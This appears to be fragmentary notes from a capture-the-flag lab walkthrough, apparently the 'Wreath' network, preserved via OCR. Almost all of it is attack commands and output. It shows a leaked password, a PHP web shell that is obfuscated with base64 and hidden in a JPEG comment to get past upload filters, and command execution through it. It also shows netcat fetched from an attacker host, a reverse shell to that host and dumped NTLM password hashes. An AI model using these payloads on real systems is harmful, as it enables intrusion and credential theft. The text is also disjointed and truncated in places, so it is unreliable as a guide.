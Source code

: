 ```bash

thomas:i<3ruby

To add this to our image we once again use exiftool:
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-USERNAME.jpeg.php


irst up, lets build that payload:
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>

<?php $f0=$_GET[base64_decode('d3JlYXRo')];if(isset($f0)){echo base64_decode('PHByZT4=').shell_exec($f0).base64_decode('PC9wcmU+');}die();?>

<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>


exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" catt.jpeg


http://10.200.185.100/resources/uploads/catt.jpeg.php?wreath=whoami
wreath-pc\thomas

curl http://10.50.182.159/nc.exe -o c:\\windows\\temp\\nc.exe

powershell.exe c:\\windows\\temp\\nc.exe 10.50.182.159 4444 -e cmd.exe 

sc qc SystemExplorerHelpService


⛩\> secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up...
```
